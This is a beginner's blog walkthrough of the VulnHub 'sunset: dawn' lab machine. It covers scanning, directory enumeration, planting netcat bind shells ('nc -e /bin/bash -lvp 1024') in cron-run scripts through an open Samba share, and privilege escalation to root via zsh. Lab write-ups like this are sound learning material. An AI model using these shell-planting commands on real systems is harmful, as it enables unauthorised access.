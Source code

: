 ```yaml
---
published: true
layout: post
title: dawn
---
```


This is a machine from [Vuln Hub!](https://www.vulnhub.com/entry/sunset-dawn,341/) It was labeled as an easy machine, but figured I'd still learn a few things!

I start out with a basic nmap scan as usual `nmap -sV -sS dawn`

![nmap]({{ site.baseurl }}/images/dawn/nmap.png)

Right away this tells us it has port 80 open, has a SQL database, and a Samba Share. Now the SQL database should not be an open port and I would be extremely surprised if that wasn't a path towards root.

I decided to go the port 80 route.

![port80]({{ site.baseurl }}/images/dawn/port80.png)

This isn't really giving me much, so I decided to run a dirbuster on the port.

`dirb 192.168.1.165` Realistically it wouldn't be this easy.

![dirb]({{ site.baseurl }}/images/dawn/dirb.png) 

conveniently this tells me there is a log page located at http://dawn/logs

![Logs]({{ site.baseurl }}/images/dawn/logs.png)

All but one of these links were non-accessible. `Management.log` was the only one available to us, so we took a look at it. At first glance it shows us there is cron jobs running, and files that have executable rights by everyone.

![Management]({{ site.baseurl }}/images/dawn/managementlog.png)

After a few failed attempts at getting a working shell, I decide to look back at the management log. Since this is considered an easy machine the command to execute the shell was already there...

I started a netcat on the port in the log `nc 192.168.1.165 1024`

![Shell]({{ site.baseurl }}/images/dawn/usershell.png)

Great! But if we needed to upload our own shell we could have done:


>	`echo "nc -e /bin/bash -lvp 1024 &" >> product-control`
>	`echo "nc -e /bin/bash -lvp 1025 &" >> web-control`

	
Inside of the Samba share type: `put web-control` and `put product-control` to upload the shells. Then make sure to verify they are being executed by downloading a new version of the Management.log.

![Double Checking]({{ site.baseurl }}/images/dawn/doublechecklog.png)

A quick google search will give you this command to spawn a more complete shell: `python -c 'import pty; pty.spawn("/bin/bash")'`. Once we have this shell I decided to start looking around. After realizing there was no user flag the next step was privilege escelation.

I typed `History` into the shell with this output:

![History Output]({{ site.baseurl }}/images/dawn/bash_history.png)

`zsh` was the only command that looked interesting. A bit of research shows it is a different shell that can be installed. 

I decide to run the command to see what happens. This is the result:

![root]({{ base.url }}/images/dawn/root.png)

All in all, I was extremely surprised that this gave me root. Privilege escelation is what I'm struggling with most right now. There are a lot of writeups online on this box, but for the sake of learning I decided to avoid them in my google searches.



